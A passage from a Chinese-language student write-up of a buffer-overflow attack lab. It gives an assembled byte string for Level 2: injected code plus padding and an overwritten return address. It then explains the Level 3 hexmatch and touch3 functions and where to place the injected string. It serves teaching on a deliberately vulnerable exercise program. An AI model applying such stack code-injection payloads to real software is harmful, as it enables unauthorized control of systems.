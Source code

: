 可知缓冲区起始地址为0x5561dc78 

我们组装一下字节码：

```
48 c7 c7 fa 97 b9 59 
68 ec 17 40 00 
c3 
00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55
```

经检查无误。

### Level 3

level 3涉及两个函数：`hexmatch` 和 `touch3`

```c
int hexmatch(unsigned val, char *sval)
{
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
```

```c
void touch3(char *sval)
{
 	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```

可以看到，我们这次不仅需要传递参数`val=cookie`，同时还需要传递一个字符串参数`sval`。

`char *s = cbuf + random() % 100`：随机指定`s`在`cbuf`中的起始位置。

`sprintf(s, "%.8x", val);`：使用 `sprintf` 函数将无符号整数 `val(cookie=0x59b997fa)` 转换成一个 8 位的十六进制字符串，存储在指针 `s` 所指向的位置。

`return strncmp(sval, s, 9) == 0;`：使用 `strncmp` 函数比较 `sval` 和 `s` 所指向的字符串，如果两个字符串的前 9 个字符完全相同，则返回 `1`，否则返回 `0`。

由于`hexmatch`函数自身申请了110字节空间，并且调用了其它库函数（一般所需内存较大），我们很容易注意到这些操作都会覆盖我们原来`getbuf`申请的栈空间，因此我们可以考虑将注入的代码存放在其它不会被覆盖的地方。
